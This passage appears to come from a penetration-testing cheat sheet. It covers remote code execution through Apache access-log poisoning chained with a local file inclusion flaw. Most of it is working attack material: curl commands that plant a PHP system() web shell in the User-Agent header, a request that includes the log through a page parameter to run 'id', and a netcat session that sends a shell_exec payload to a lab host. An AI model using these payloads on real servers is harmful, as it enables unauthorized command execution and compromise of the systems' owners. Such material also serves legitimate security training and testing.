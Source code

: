 ![](<../../../.gitbook/assets/image (71).png>)

#### RCE via Apache logs

Poison the User-Agent in access logs:

```
$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.

```
$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

```
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```
